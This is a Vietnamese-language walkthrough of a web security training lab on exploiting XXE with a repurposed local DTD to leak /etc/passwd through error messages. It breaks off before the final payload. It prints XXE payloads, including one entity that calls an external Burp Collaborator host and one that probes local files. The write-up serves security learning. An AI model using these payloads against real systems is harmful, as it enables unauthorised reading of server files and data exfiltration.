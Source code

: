 Sau khi upload thành công, nội dung file /etc/hostname đã được nhúng vào hình ảnh

![image-20220522113901323](https://user-images.githubusercontent.com/68894302/169690580-b40a0b08-4f3c-4dde-804c-9ff1acbf8d4f.png)



---

## Lab 9: Exploiting XXE to retrieve data by repurposing a local DTD

Description: 

``` 
This lab has a "Check stock" feature that parses XML input but does not display the result.
To solve the lab, trigger an error message containing the contents of the /etc/passwd file.
You'll need to reference an existing DTD file on the server and redefine an entity from it.
Hint

Note: Systems using the GNOME desktop environment often have a DTD at /usr/share/yelp/dtd/docbookx.dtd containing an entity called ISOamso.

```

Ban đầu xác định xem file /usr/share/yelp có tồn tại không bằng cách thử các payload sau:

![image-20220522124859395](https://user-images.githubusercontent.com/68894302/169690585-c1bdb1f7-2ca0-48be-907f-89c42579a549.png)

-> không tồn tại file .../docbookx.txt

![image-20220522125000942](https://user-images.githubusercontent.com/68894302/169690588-69ba4718-b56d-4167-81f4-19c6a1dd1058.png)

-> tồn tại file .../docbookx.dtd

Challenge này kết nối không thể thực hiên được từ ứng dụng web. Quan sát thấy DNS thậm chí có thể không phân giải bên ngoài external với payload này

``` xml-dtd
<!DOCTYPE root [<!ENTITY test SYSTEM 'http://3lpwlco92m73t3nom1rod7yjbah05p.burpcollaborator.net'>]>
<root>&test;</root>
```

![image-20220522125717312](https://user-images.githubusercontent.com/68894302/169690593-a335c001-99b4-4ba5-adb1-bcd7c8e130e0.png)

Khả năng lọc dữ liệu dựa trên thông báo lỗi phản hồi chúng ta có thể dựa vào một local DTD để thực hiện các kĩ thuật concatenation. Dùng payload dưới đây để xác định thông báo lỗi bao gồm tệp

```xml-dtd
<!DOCTYPE root [
    <!ENTITY % local_dtd SYSTEM "file:///non_exist_file/"> %local_dtd;]>
<root></root>
```

![image-20220522130232540](https://user-images.githubusercontent.com/68894302/169690595-4e8359e0-74d8-43e5-b9f7-7f334fb8b9c8.png)

Như description đã cho chúng ta có một DTD đã có sẵn trên máy chủ là `file:///usr/share/yelp/dtd/docbookx.dtd`. Search google thì thấy rằng hầu hết các máy tính window và linux đều có một DTD công khai
